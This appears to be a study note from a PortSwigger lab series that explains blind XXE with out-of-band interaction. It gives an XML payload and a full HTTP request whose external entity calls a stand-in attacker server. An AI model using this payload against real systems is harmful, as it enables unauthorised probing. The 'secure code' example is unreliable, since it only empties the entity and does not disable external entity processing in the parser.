

## Blind XXE with Out-of-Band Interaction

### What is Blind XXE?

Blind XXE is a type of XXE attack where the attacker does not receive direct feedback from the application. Instead, the attacker relies on out-of-band interactions to confirm the success of the attack. This type of attack is often used when the application does not return any useful information in its response.

### Why Use Out-of-Band Interaction?

Out-of-band interaction is used to bypass the lack of direct feedback from the application. By using external resources such as DNS queries or HTTP requests to an attacker-controlled server, the attacker can confirm whether the injected entity was processed by the application.

### How Does Out-of-Band Interaction Work?

In the context of the given lecture, the attacker defines an external entity that references an attacker-controlled server. This entity is then referenced within the XML input sent to the application. When the application attempts to process the XML input, it makes a request to the attacker-controlled server, confirming the success of the attack.

### Step-by-Step Mechanics

Let's break down the steps involved in performing a blind XXE attack with out-of-band interaction:

1. **Define the External Entity**:
   - The attacker defines an external entity that references an attacker-controlled server.
   - This entity is typically defined using the `SYSTEM` keyword in the XML input.

2. **Inject the Malicious XML**:
   - The attacker sends the XML input containing the malicious entity to the application.
   - The application attempts to parse the XML input, which triggers the request to the attacker-controlled server.

3. **Monitor the Attacker-Controlled Server**:
   - The attacker monitors the server to confirm whether the request was made.
   - If the request is made, the attacker knows that the entity was processed by the application.

### Complete Example

Here is a complete example of how to perform a blind XXE attack with out-of-band interaction:

#### Vulnerable Code

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "http://attacker-controlled-server.com">
]>
<test>&xxe;</test>
```

#### Secure Code

To prevent this attack, the application should disable external entity processing. Here is the secure version of the code:

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY xxe "">
]>
<test>&xxe;</test>
```

### Full HTTP Request and Response

#### HTTP Request

```http
POST /vulnerable-endpoint HTTP/1.1
Host: vulnerable-application.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "http://attacker-controlled-server.com">
]>
<test>&xxe;</test>
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Mon, 23 Jan 2023 12:00:00 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 123

<!DOCTYPE html>
<html>
<head>
<title>Error</title>
</head>
<body>
<h1>Entities are not allowed for security reasons.</h1>
</body>
</html>
```

### Mermaid Diagram



---
<!-- nav -->
[[03-Blind XXE with Out-of-Band Interaction via XML Parameter Entities|Blind XXE with Out-of-Band Interaction via XML Parameter Entities]] | [[Web Security (PortSwigger)/08-XXE Injection/05-Lab 4 Blind XXE with out of band interaction via XML parameter entities/00-Overview|Overview]] | [[Web Security (PortSwigger)/08-XXE Injection/05-Lab 4 Blind XXE with out of band interaction via XML parameter entities/05-Detection and Prevention|Detection and Prevention]]
